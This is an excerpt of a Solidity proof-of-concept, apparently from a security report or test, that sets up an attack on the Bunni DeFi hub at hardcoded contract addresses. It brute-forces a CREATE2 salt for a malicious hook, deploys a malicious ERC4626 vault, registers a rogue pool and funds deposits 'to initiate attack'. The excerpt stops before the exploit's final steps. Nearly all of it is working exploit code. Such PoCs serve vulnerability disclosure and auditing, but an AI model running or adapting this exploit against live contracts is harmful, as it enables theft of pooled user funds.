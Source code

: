 ```solidity
    hub = IBunniHub(0x000000DCeb71f3107909b1b748424349bfde5493);
    bunniHook = BunniHook(payable(0x0010d0D5dB05933Fa0D9F7038D365E1541a41888));

    // 1. Create the malicious pool linked to the malicious hook
    bytes32 salt;
    unchecked {
        bytes memory creationCode = abi.encodePacked(type(CustomHook).creationCode);
        uint256 offset;
        while (true) {
            salt = bytes32(offset);
            address deployed = computeAddress(address(this), salt, creationCode);
            if (uint160(bytes20(deployed)) & Hooks.ALL_HOOK_MASK == HOOK_FLAGS && deployed.code.length == 0) {
                break;
            }
            offset++;
        }
    }
    address customHook = address(new CustomHook{salt: salt}());

    // 2. Create the malicious vault
    MaliciousERC4626 maliciousVault = new MaliciousERC4626(token0, customHook);
    token1.approve(address(maliciousVault), type(uint256).max);
    deal(address(token1), address(maliciousVault), 1 ether);

    // 3. Register the malicious pool
    (, PoolKey memory maliciousKey) = hub.deployBunniToken(
        IBunniHub.DeployBunniTokenParams({
            currency0: Currency.wrap(address(token0)),
            currency1: Currency.wrap(address(token1)),
            tickSpacing: TICK_SPACING,
            twapSecondsAgo: TWAP_SECONDS_AGO,
            liquidityDensityFunction: new MockLDF(address(hub), address(customHook), address(quoter)),
            hooklet: IHooklet(address(0)),
            ldfType: LDFType.STATIC,
            ldfParams: bytes32(abi.encodePacked(ShiftMode.BOTH, int24(-3) * TICK_SPACING, int16(6), ALPHA)),
            hooks: BunniHook(payable(customHook)),
            hookParams: "",
            vault0: ERC4626(address(maliciousVault)),
            vault1: ERC4626(address(USDCVault)),
            minRawTokenRatio0: 0,
            targetRawTokenRatio0: 0,
            maxRawTokenRatio0: 0,
            minRawTokenRatio1: 0,
            targetRawTokenRatio1: 0,
            maxRawTokenRatio1: 0,
            sqrtPriceX96: TickMath.getSqrtPriceAtTick(4),
            name: bytes32("MaliciousBunniToken"),
            symbol: bytes32("BAD-BUNNI-LP"),
            owner: address(this),
            metadataURI: "metadataURI",
            salt: bytes32(keccak256("malicious"))
        })
    );

    // 4. Make a deposit to the malicious pool to have accounted some reserves of vault0 and initiate attack
    uint256 initialToken0Deposit = 50_000 ether;
    uint256 initialToken1Deposit = 50_000e6;
    deal(address(token0), address(this), 2 * initialToken0Deposit);
    deal(address(token1), address(this), 2 * initialToken0Deposit);
```